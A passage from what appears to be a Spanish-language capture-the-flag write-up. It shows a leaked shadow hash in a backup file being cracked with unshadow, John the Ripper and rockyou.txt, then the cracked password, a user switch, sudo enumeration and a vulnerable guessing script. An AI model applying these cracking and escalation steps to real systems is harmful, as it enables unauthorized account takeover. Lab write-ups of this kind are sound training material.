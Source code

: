 Si revisamos su contenido tenemos lo siguiente:
```bash
cat /var/backups/darksblack/.darksblack.txt
```

```bash
darksblack:$y$j9T$LHiaZ3.V.uZMQWNKIHQaK.$yucUM837WonVbazf5eQWEmFnG5u0ZY5VTxH37NhaCE5:20028:0:99999:7:::
```

Ahora para poder crakear esta password necesitamos obtener a este usuario desde el archivo **/etc/passwd**
```bash
darksblack:x:1001:1001:,,,:/home/darksblack:/bin/bash
```

Ahora estos dos datos los almacenaremos de la siguiente manera:
**hash**: darksblack:$y$j9T$LHiaZ3.V.uZMQWNKIHQaK.$yucUM837WonVbazf5eQWEmFnG5u0ZY5VTxH37NhaCE5:20028:0:99999:7:::
**passwd**: darksblack:x:1001:1001:,,,:/home/darksblack:/bin/bash
Una ves que ya tengamos en los archivos en nuestra maquina loca usamos el comando:
**unshadow**: El comando `unshadow` en Linux se usa para combinar el archivo `/etc/passwd` y `/etc/shadow` en un solo archivo que contiene los hashes de las contraseñas junto con los nombres de usuario, **para que John the Ripper pueda usarlos**.
```bash
unshadow passwd hash > data.txt 
```

Ahora lanzamos un ataque de fuerza bruta:
```bash
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt data.txt
```

Tenemos la contrasena:
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
salvador1        (darksblack)
```

Migramos a ese usuario:
```bash
su darksblack # ( salvador1 )
```
###### Usuario `[ www-data ]`:
Listando los permisos para este usuario tenemos lo siguinte:
```bash
sudo -l

User darksblack may run the following commands on 84a11267701a:
    (maci) NOPASSWD: /home/maci/script.sh
```

Revisando el contenido del script
```bash
#!/bin/bash

read -rp "Adivina: " num

if [[ $num -eq 123123 ]]
then
  echo "Si"
else
  echo "ERROR"
fi
```
